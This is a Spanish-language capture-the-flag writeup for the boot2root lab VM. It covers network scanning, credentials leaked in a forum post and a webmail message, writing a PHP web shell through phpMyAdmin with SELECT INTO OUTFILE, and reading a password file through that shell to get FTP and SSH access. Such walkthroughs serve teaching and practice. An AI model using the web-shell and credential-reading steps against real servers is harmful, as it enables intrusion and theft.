









# Writeup 1 - Raiders of the Lost Ark (En busca del arca perdida)

## Índice:

- [1. Encontrar la IP](#1-encontrar-la-ip)
- [2. Reconocimiento de servicios](#2-reconocimiento-de-servicios)
- [3. Explorar el servidor web](#3-explorar-el-servidor-web)
- [4. Fuzzing paths de acceso](#4-fuzzing-paths-de-acceso)
- [5. Explorando el foro](#5-explorando-el-foro)
- [6. Logging en el foro](#6-logging-en-el-foro)
- [7. Iniciar sesión en Phpmyadmin](#7-iniciar-sesión-en-phpmyadmin)
- [8. Acceso SSH como laurie](#8-acceso-ssh-como-laurie)
- [9. Análisis del binario y assword exploit](#9-análisis-del-binario-y-passwords-exploit)
- [10. Ejecutamos el binario bomb](#10-ejecutamos-el-binario-bomb)
- [11. Acceso SSH como thor](#11-acceso-ssh-como-thor)
- [12. Python Draw](#12-python-draw)
- [13. Acceso SSH como zaz](#13-acceso-ssh-como-zaz)
- [14. Calcular el offset y payload](#14-calcular-el-offset-y-payload)
- [15. Construir el payload](#15-construir-el-payload)
- [16. Conclusión del Writeup 1](#16-conclusión-del-writeup-1)


## Explotación

## 1. Encontrar la IP

> Ten en cuenta que esta sección puede variar según la configuración de tu red.

Listamos la VM que está corriendo en el host:

```bash
VBoxManage list runningvms
"boot2root" {656d8bc0-eeee-4e29-93b6-574bfd23da96}
```

Intentamos que nos muestre la configuración de red pero no devuelve nada:
```bash
VBoxManage showvminfo boot2root | grep -i network
```

Así que intentamos ver los adaptadores de red configurados y encontramos una información clave `Attachment: Bridged Interface 'wlo1'`:

```bash
VBoxManage showvminfo "boot2root" | grep -i "nic\|nat\|bridge\|host"
CPUProfile:                  host
NIC 1:                       MAC: 0800275EB507, Attachment: Bridged Interface 'wlo1', Cable connected: on, Trace: off (file: none), Type: 82540EM, Reported speed: 0 Mbps, Boot priority: 0, Promisc Policy: deny, Bandwidth group: none
NIC 2:                       disabled
NIC 3:                       disabled
NIC 4:                       disabled
NIC 5:                       disabled
NIC 6:                       disabled
NIC 7:                       disabled
NIC 8:                       disabled
Name: 'vmbox_share', Host path: '/home/davgalle/Escritorio/VM_TRANSFER' (global mapping), writable, auto-mount, mount-point: '/media/sf_vmbox_share'
    Destination:             File
```

`wlo1` es nuestra interfaz `WiFi`. Con `Bridged` la VM está en la misma red que nuetro host. Eso significa que tiene una IP en el mismo rango que nosotros.

Usamos el comando `ip addr show wlo1` y separamos todo lo que necesitamos:
```bash
ip addr show wlo1
3: wlo1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether dc:fb:48:d1:41:79 brd ff:ff:ff:ff:ff:ff
    altname wlp0s20f3
    inet 192.168.0.19/24 brd 192.168.0.255 scope global dynamic noprefixroute wlo1
       valid_lft 80384sec preferred_lft 80384sec
    inet6 fe80::f34f:7e0b:28ca:96a5/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

```text
Nuetra IP:      192.168.0.19
Rango:          192.168.0.0/24 
```

La VM está en el mismo rango. Puesto que el campus no disponemos de `nmap`,  usamos una función en bash para escanear las IP:
```bash
 for i in {1..254}; do 
  (ping -c 1 -W 1 192.168.0.$i | grep "from" | cut -d " " -f 4 | tr -d ":" &) 
done; wait
192.168.0.1             ←  // router
192.168.0.12
192.168.0.19            ←  // Nuestra IP
192.168.0.25
192.168.0.17
192.168.0.26
192.168.0.27
192.168.0.30
192.168.0.10
```
Descartamos las IP `192.168.0.19` y `192.168.0.1`, que son la nuestra y la del router. Creamos una función en `bash` para escanear las IP restantes en busca de los puertos abiertos y esto nos devuelve la IP `192.168.0.30` que tiene varios puertos abiertos:

```bash
for ip in 10 12 17 25 26 27 30; do
    echo "--- IP 192.168.0.$ip ---"
    for port in 21 22 25 80 443 3306; do
        (timeout 0.5 bash -c "echo > /dev/tcp/192.168.0.$ip/$port" 2>/dev/null) && echo "[+] Puerto $port abierto"
    done
done
--- IP 192.168.0.10 ---
--- IP 192.168.0.12 ---
--- IP 192.168.0.17 ---
--- IP 192.168.0.25 ---
--- IP 192.168.0.26 ---
[+] Puerto 443 abierto
--- IP 192.168.0.27 ---
[+] Puerto 443 abierto
--- IP 192.168.0.30 ---
[+] Puerto 21 abierto
[+] Puerto 22 abierto
[+] Puerto 80 abierto
[+] Puerto 443 abierto
```

## 2. Reconocimiento de servicios

Con la IP identificada exploramos los servicios disponibles en los puertos abiertos:

**Puerto 80 — HTTP:**
```bash
curl -I http://192.168.0.30
HTTP/1.1 200 OK
Server: Apache/2.2.22 (Ubuntu)
Last-Modified: Wed, 07 Oct 2015 23:37:54 GMT
Content-Type: text/html
```

El servidor web es **Apache 2.2.22** corriendo sobre **Ubuntu**.

**Puerto 22 — SSH:**
```bash
nc -vn 192.168.0.30 22
Connection to 192.168.0.30 22 port [tcp/*] succeeded!
SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.7
```

La versión de SSH es **OpenSSH 5.9p1** — versión antigua con posibles vulnerabilidades conocidas.

**Puerto 22 — Banner SSH:**
```bash
ssh -p 22 192.168.0.30
The authenticity of host '192.168.0.30 (192.168.0.30)' can't be established.
ECDSA key fingerprint is SHA256:d5T03f+nYmKY3NWZAinFBqIMEK1U0if222A1JeR8lYE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '192.168.0.30' (ECDSA) to the list of known hosts.
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
davgalle@192.168.0.30's password: 
```

El servidor pide credenciales que aun no tenemos.

**Resumen del servidor:**

| Puerto | Servicio | Versión |
| --- | --- | --- |
| 21 | FTP | ? |
| 22 | SSH | OpenSSH 5.9p1 |
| 80 | HTTP | Apache 2.2.22 |
| 443 | HTTPS | Apache 2.2.22 |

## 3. Explorar el servidor web

Exploramos `https` en el terminal y recibimos `404 Not Found`. Aunque parece que hay algo configurado pero no encuentra el recurso raíz.:
```bash
davgalle@davgalle-Latitude-5400:~/Documents/RNCP7/boot2root$ curl -kI https://192.168.0.30
HTTP/1.1 404 Not Found
Date: Thu, 23 Apr 2026 16:56:19 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=iso-8859-1
```

Exploramos `http` en el navegador y nuestra una página de "coming soon" aparentemente vacia:


Exploramos el código fuente de `http` en busca de **directorios ocultos** y no vemos nada fuera de lo normal ni directorios ocultos. Los **enlaces son reales**.   
```bash
 curl http://192.168.0.30
<!DOCTYPE html>
<html>
<head>
	<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
	<title>Hack me if you can</title>
	<meta name='description' content='Simple and clean HTML coming soon / under construction page'/>
	<meta name='keywords' content='coming soon, html, html5, css3, css, under construction'/>	
	<link rel="stylesheet" href="style.css" type="text/css" media="screen, projection" />
	<link href='http://fonts.googleapis.com/css?family=Coustard' rel='stylesheet' type='text/css'>

</head>
<body>
	<div id="wrapper">
		<h1>Hack me</h1>
		<h2>We're Coming Soon</h2>
		<p>We're wetting our shirts to launch the website.<br />
		In the mean time, you can connect with us trought</p>
		<p><a href="https://fr-fr.facebook.com/42Born2Code"></a> <a href="https://plus.google.com/+42Frborn2code"></a> <a href="https://twitter.com/42born2code"></a></p>
	</div>
</body>
</html>
```

Como sabemos que el servidor es Apache.  En Apache hay algunos archivos y directorios que existen por defecto o son muy comunes en cualquier servidor web:

- `robots.txt` — le dice a los buscadores qué no indexar
- `sitemap.xml` — mapa del sitio
- `.htaccess` — configuración de Apache
- `server-status` — estado del servidor

Probamos con todos en el puerto `80` y el `443` y no encontramos nada de información importante salvo por un detalle:

- `curl http://192.168.0.30/.htaccess` -> Devuelve `403`
- `curl -k https://192.168.0.30/.htaccess` -> Devuelve `404`

```bash
curl http://192.168.0.30/.htaccess
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access /.htaccess
on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 192.168.0.30 Port 80</address>
</body></html>
```
```bash
curl -k https://192.168.0.30/.htaccess
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /.htaccess was not found on this server.</p>
<hr>
<address>Apache/2.2.22 (Ubuntu) Server at 192.168.0.30 Port 443</address>
</body></html>
```

Esta variación significa que en `HTTPS` la configuración es diferente al `HTTP`.

Los certificados SSL autofirmados a veces revelan nombres de dominio, emails o información del servidor en los campos:

```bash
openssl s_client -connect 192.168.0.30:443 2>/dev/null | openssl x509 -noout -text | grep Subject
Subject: CN = BornToSec
Subject Public Key Info:
```
El certificado SSL es **autofirmado** y revela el nombre `CN = BornToSec` —
el mismo nombre que aparece en el prompt de login de la VM. Esto sugiere que
hay un **virtual host** configurado con ese nombre en Apache.

Sin acceso a `/etc/hosts` en el campus, pasamos el header `Host` directamente
con `curl` para forzar la resolución del virtual host:

```bash
curl -k -H "Host: BornToSec" https://192.168.0.30/
HTTP/1.1 404 Not Found
address>Apache/2.2.22 (Ubuntu) Server at borntosec Port 443
```

El servidor responde como `borntosec` (en minúsculas) — confirma que el virtual
host existe. Probamos los mismos archivos comunes pero sin resultado.

**Resumen final del reconocimiento:**

| Puerto | Servicio | Versión | Notas |
| --- | --- | --- | --- |
| 21 | FTP | vsftpd | Anónimo configurado pero con error de permisos |
| 22 | SSH | OpenSSH 5.9p1 | Versión antigua — pide credenciales |
| 80 | HTTP | Apache 2.2.22 | Página "coming soon" — `.htaccess` existe (403) |
| 443 | HTTPS | Apache 2.2.22 | Virtual host `borntosec` — certificado autofirmado |


## 4. Fuzzing paths de acceso

Una vez que el reconocimiento está completo exploramos los directorios sin el comando `dirb` porque no se encuentra instalado en el campus. Creamos un `script bash` con los directorios más comunes de las webs.

las wordlists más comunes están en `/usr/share/wordlists/` en Kali o similares.

Primero escaneamos en `HTTP`:

```bash
for dir in admin login wp-admin phpmyadmin forum blog uploads files backup webmail tmp test; do
    code=$(curl -s -o /dev/null -w "%{http_code}" http://192.168.0.30/$dir/)
    echo "$code http://192.168.0.30/$dir/"
done
404 http://192.168.0.30/admin/
404 http://192.168.0.30/login/
404 http://192.168.0.30/wp-admin/
404 http://192.168.0.30/phpmyadmin/
403 http://192.168.0.30/forum/        ← existe pero bloqueado
404 http://192.168.0.30/blog/
404 http://192.168.0.30/uploads/
404 http://192.168.0.30/files/
404 http://192.168.0.30/backup/
404 http://192.168.0.30/webmail/
404 http://192.168.0.30/tmp/
404 http://192.168.0.30/test/
```

Descubrimos que la VM es un servidor Linux con varios servicios, y que el directorio `/forum/` devuelve `403` en HTTP — existe pero está bloqueado.

Repetimos el escaneo en `HTTPS`:

```bash
for dir in admin login wp-admin phpmyadmin forum blog uploads files backup webmail tmp test; do
    code=$(curl -sk -o /dev/null -w "%{http_code}" https://192.168.0.30/$dir/)
    echo "$code https://192.168.0.30/$dir/"
done
404 https://192.168.0.30/admin/
404 https://192.168.0.30/login/
404 https://192.168.0.30/wp-admin/
200 https://192.168.0.30/phpmyadmin/  ← panel de bases de datos
200 https://192.168.0.30/forum/       ← foro accesible
404 https://192.168.0.30/blog/
404 https://192.168.0.30/uploads/
404 https://192.168.0.30/files/
404 https://192.168.0.30/backup/
302 https://192.168.0.30/webmail/     ← redirección al cliente de correo
404 https://192.168.0.30/tmp/
404 https://192.168.0.30/test/
```

Descubrimos tres servicios accesibles en `HTTPS`:

| Directorio | Código | Servicio |
| --- | --- | --- |
| `/forum/` | 200 | Foro **"my little forum 2.3.4"** |
| `/webmail/` | 302 | Cliente de correo web (SquirrelMail) |
| `/phpmyadmin/` | 200 | Panel de administración de bases de datos |

Lo probamos en el navegador `https://192.168.0.30/forum/`, nos muetra la página del foro y vemos que podemos extraer información muy importante.



## 5. Explorando el foro

El foro es **"my little forum 2.3.4"**. Extraemos información muy valiosa:

**6 usuarios registrados:**

| Usuario | Rol |
| --- | --- |
| `admin` | Administrador |
| `lmezard` | Usuario |
| `qudevide` | Usuario |
| `zaz` | Usuario |
| `wandre` | Usuario |
| `thor` | Usuario |

**Hilos publicados:**

| ID | Título | Autor |
| --- | --- | --- |
| 1 | Welcome to this new Forum ! | `admin` |
| 6 | Probleme login ? | `lmezard` |
| 4 | Gasolina | `qudevide` |
| 2 | Les mouettes ! | `wandre` |

El hilo más interesante es **"Probleme login ?"** publicado por `lmezard`. Puede contener credenciales o pistas de acceso.

Después de revisar todo el hilo **"Probleme login ?"** encontramos un registro de un error de inicio de sesión, en el que parece el típico error en el que el usuario a puesto el password `!q\]Ej?*5K5cy*AJ` en el campo del usuario.

## 6. Logging en el foro

Y más abajo el usuario `lmezard` se loguea correctamente:



Probamos a logueranos en el blog en el navegador con las credenciales que hemos encontrado:




¡¡¡Y ya estamos dentro!!!


Buscando en el perfil del usuairo descubrimos su email `laurie@borntosec.net`. Y con esa información descubrimos dos cosas:



- El nombre real de `lmezard` es `Laurie`
- El dominio es `borntosec.net` (que coincide con el virtual host borntosec que encontramos antes) 

Ahora que tenemos su cuenta de correo vamos a probar a loguearnos en `webmail`.
```text
https://192.168.0.30/webmail
```





La cuenta solo tiene un par de E-mails, y abrimos directamente el que tiene como `Subject: DB Access`

Dentro de ese correo encontramos las credenciales para acceder a la Base de Datos:

```text
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

- Username: root
- Password: Fg-'kKXBj87E:aJ$

## 7. Iniciar sesión en Phpmyadmin

Accedemos a `phpmyadmin` que se encuetra en la dirección `https://192.168.0.30/phpmyadmin/` tal y como vimos en la búsqueda de directorios:




Vamos a intentar abrir una `shell` en la VM inyectando una nueva página `php` en el foro, para que este ejecute todos los comandos que le pasemos.

## **Estos son los pasos que hemos seguido:**

- [7.1 Inyectando un webshell](#71-inyectando-un-webshell)
- [7.2 Acceder al terminal como www-data](#72-acceder-al-terminal-como-www-data)
- [7.3 Acceso al FTP](#73-acceso-al-ftp)
- [7.4 Reensamblar archivo TAR](#74-reensamblar-archivo-tar)
- [7.5 Cruzamos datos](#75-cruzamos-datos)

### 7.1 Inyectando un webshell

Usamos `phpMyAdmin` para escribir un archivo `PHP` directamente en el servidor usando `SQL`.

Desde el `home` de `phpmyadmin` vamos a la pestaña de `SQL` y ejecutamos este comnado:
```bash
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/shell.php'
```




El archivo se ha creado y podeoms acceder a él:

```bash
curl -k "https://192.168.0.30/forum/templates_c/shell.php?cmd=whoami"
www-data
```

### 7.2 Acceder al terminal como www-data

Tenemos ejecución de comandos en el servidor como `www-data`. Ahora exploramos el sistema de archivos en busca de información útil:

```bash
curl -k "https://192.168.0.30/forum/templates_c/shell.php?cmd=ls+/home/"
LOOKATME
ft_root
laurie
laurie@borntosec.net
lmezard
thor
zaz
```

Buscamos dentro del direcotirio `LOOKATME`que nos muetra el archivo `password`:
```bash
curl -k "https://192.168.0.30/forum/templates_c/shell.php?cmd=ls+/home/LOOKATME"
password
```

Hacmeos un `cat` para que no muestre que contiene ese archivo:
```bash
curl -k "https://192.168.0.30/forum/templates_c/shell.php?cmd=cat+/home/LOOKATME/password"
lmezard:G!@M6f4Eatau{sF"
```

- Usuario: lmezard
- Password: G!@M6f4Eatau{sF"

### 7.3 Acceso al FTP

El archivo `/home/LOOKATME/password` contiene credenciales con formato **`usuario:contraseña`**. 

El usuario es `lmezard` — el mismo del foro.

Probamos esas credenciales en el `FTP` porque es el único servicio que nos quedaba por explorar con credenciales y que sabíamos que estaba activo **(puerto 21 abierto desde el inicio)**.

```bash
ftp 192.168.0.30
Connected to 192.168.0.30.
220 Welcome on this server
Name (192.168.0.30:davgalle): lmezard
331 Please specify the password.
Password: G!@M6f4Eatau{sF"
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||41477|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
```

Encontramos dos archivos — `README` y `fun`. Los descargamos con `get`:

```bash
ftp> get README
ftp> get fun
ftp> quit
```

El `README` nos da las instrucciones del siguiente paso:

```bash
cat README
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

El archivo `fun` es un archivo `TAR` con 751 fragmentos de código C desordenados. Hay que reensamblarlos en orden para obtener la contraseña de `laurie`.

### 7.4 Reensamblar archivo TAR

Cada fragmento tiene un número de archivo en el comentario `//fileN`.

El `main()` llama a `getme1()` hasta `getme12()` y dice **"Now SHA-256 it and submit"**.

Podemos ver algunos valores en el archivo:

```bash
getme1()  → file5   → char getme1() {  → buscar el return
getme2()  → file414 → char getme2() {  → buscar el return
getme4()  → file66  → char getme4() {  → buscar el return
getme5()  → file633 → char getme5() {  → buscar el return
getme6()  → file91  → char getme6() {  → buscar el return
getme7()  → file366 → char getme7() {  → buscar el return
getme8()  → 'w'
getme9()  → 'n'
getme10() → 'a'
getme11() → 'g'
getme12() → 'e'
```

Y además tenemos algunos **returns** visibles:

```bash
file38  → ZPY1Q.pcap → return 'h'   ← getme?
file617 → T44J5.pcap → return 'p'   ← getme?
file429 → 7DT5Q.pcap → return 'a'   ← getme?
file406 → T7VV0.pcap → return 'r'   ← getme?
file23  → J5LKW.pcap → return 't'   ← getme?
file371 → ECOW1.pcap → return 'e'   ← getme?
file86  → APM1E.pcap → return 'I'   ← getme?
```

Extraemos al archivo y buscamos los `getme` que nos falta:
```bash
tar xf fun
grep -r "return" ft_fun/ | grep -v "useless\|printf"
ft_fun/BJPCP.pcap:	return 'w';
ft_fun/BJPCP.pcap:	return 'n';
ft_fun/BJPCP.pcap:	return 'a';
ft_fun/BJPCP.pcap:	return 'g';
ft_fun/BJPCP.pcap:	return 'e';
ft_fun/7DT5Q.pcap:	return 'a';
ft_fun/ECOW1.pcap:	return 'e';
ft_fun/ZPY1Q.pcap:	return 'h';
ft_fun/APM1E.pcap:	return 'I';
ft_fun/T44J5.pcap:	return 'p';
ft_fun/J5LKW.pcap:	return 't';
ft_fun/T7VV0.pcap:	return 'r';
```

Ahora uqe tenemos todos los returns, tenemos que asignarlos a las funciones correctas buscando qué `getme` corresponde a cada archivo:
```bash
grep -r "getme" ft_fun/ | grep -v "useless\|printf" 
ft_fun/BJPCP.pcap:char getme8() {
ft_fun/BJPCP.pcap:char getme9() {
ft_fun/BJPCP.pcap:char getme10() {
ft_fun/BJPCP.pcap:char getme11() {
ft_fun/BJPCP.pcap:char getme12()
ft_fun/G7Y8I.pcap:char getme2() {
ft_fun/4KAOH.pcap:char getme5() {
ft_fun/331ZU.pcap:char getme1() {
ft_fun/91CD0.pcap:char getme6() {
ft_fun/32O0M.pcap:char getme7() {
ft_fun/B62N4.pcap:char getme3() {
ft_fun/0T16C.pcap:char getme4() {
```

### 7.5 Cruzamos datos

cada `getme` está en un archivo, y el `return` está en el archivo siguiente (el código está fragmentado). Buscamos el return que sigue a cada `getme`:
```bash
grep -A2 "getme1\b" ft_fun/331ZU.pcap
grep -A2 "getme2\b" ft_fun/G7Y8I.pcap
grep -A2 "getme3\b" ft_fun/B62N4.pcap
grep -A2 "getme4\b" ft_fun/0T16C.pcap
grep -A2 "getme5\b" ft_fun/4KAOH.pcap
grep -A2 "getme6\b" ft_fun/91CD0.pcap
grep -A2 "getme7\b" ft_fun/32O0M.pcap
char getme1() {

//file5
char getme2() {

//file37
char getme3() {

//file56
char getme4() {

//file115
char getme5() {

//file368
char getme6() {

//file521
char getme7() {

//file736

```

Veos como cada `getme` está incompleto. Por lo tanto el `return` está en el archivo con el número siguiente.

Buscamos los archivos por número de fichero:
```bash
grep -r "//file6$" ft_fun/
grep -r "//file38$" ft_fun/
grep -r "//file57$" ft_fun/
grep -r "//file116$" ft_fun/
grep -r "//file369$" ft_fun/
grep -r "//file522$" ft_fun/
grep -r "//file737$" ft_fun/
ft_fun/APM1E.pcap://file6
ft_fun/ZPY1Q.pcap://file38
ft_fun/ECOW1.pcap://file57
ft_fun/7DT5Q.pcap://file116
ft_fun/T7VV0.pcap://file369
ft_fun/J5LKW.pcap://file522
ft_fun/T44J5.pcap://file737
```

Y ahora ya podemos cruzar todos los datos:
```bash
getme1()  → file5  → siguiente es file6  → APM1E.pcap  → return 'I'
getme2()  → file37 → siguiente es file38 → ZPY1Q.pcap  → return 'h'
getme3()  → file56 → siguiente es file57 → ECOW1.pcap  → return 'e'
getme4()  → file115→ siguiente es file116→ 7DT5Q.pcap  → return 'a'
getme5()  → file368→ siguiente es file369→ T7VV0.pcap  → return 'r'
getme6()  → file521→ siguiente es file522→ J5LKW.pcap  → return 't'
getme7()  → file736→ siguiente es file737→ T44J5.pcap  → return 'p'
getme8()  → BJPCP.pcap → return 'w'
getme9()  → BJPCP.pcap → return 'n'
getme10() → BJPCP.pcap → return 'a'
getme11() → BJPCP.pcap → return 'g'
getme12() → BJPCP.pcap → return 'e'
```

**La contraseña es:** 
- Iheartpwnage

El `main()` dice **"Now SHA-256 it and submit"**. Calculamos:
```bash
 echo -n "Iheartpwnage" | sha256sum
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```


## 8. Acceso SSH como laurie

Usamos la contraseña y el usuario para acceder a VM a traves del `SSH`:

```bash
ssh laurie@192.168.0.30
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.0.30's password: 
laurie@BornToSecHackMe:~$ whoami
laurie
laurie@BornToSecHackMe:~$ 
```

Una vez que estamos dentro listamos el `home`
```bash
laurie@BornToSecHackMe:~$ ls -la
total 37
drwxr-x--- 1 laurie   laurie    60 Oct 15  2015 .
drwxrwx--x 1 www-data root      80 Oct 13  2015 ..
-rwxr-x--- 1 laurie   laurie    20 Apr 23 23:58 .bash_history
-rwxr-x--- 1 laurie   laurie   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 laurie   laurie  3489 Oct 13  2015 .bashrc
-rwxr-x--- 1 laurie   laurie 26943 Oct  8  2015 bomb
drwx------ 2 laurie   laurie    43 Oct 15  2015 .cache
-rwxr-x--- 1 laurie   laurie   675 Oct  8  2015 .profile
